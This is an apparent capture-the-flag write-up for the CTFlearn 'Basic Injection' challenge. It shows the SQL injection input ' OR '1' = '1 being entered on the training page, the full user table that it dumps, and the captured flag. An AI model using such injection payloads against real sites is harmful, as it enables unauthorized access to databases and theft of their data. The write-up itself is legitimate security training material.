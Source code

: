 ## Basic Injection
The main idea finding the flag using basic SQL Injections to insecure web page.


#### Problem Statement:
<p align="center">
<img src="resources/images/Basic Injection.png">
<br>


#### Step-1:
After we go to the given URL https://web.ctflearn.com/web4/, we are asked to submit something.

#### WebPage:
<p align="center">
<img src="resources/images/WebPage.png">
<br>

#### Step-2:
I tried basic SQL payloads the existing database.

I tried `' OR '1' = '1`

I got the following output.
```
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
```

#### The Flag is obtained:
`CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}`

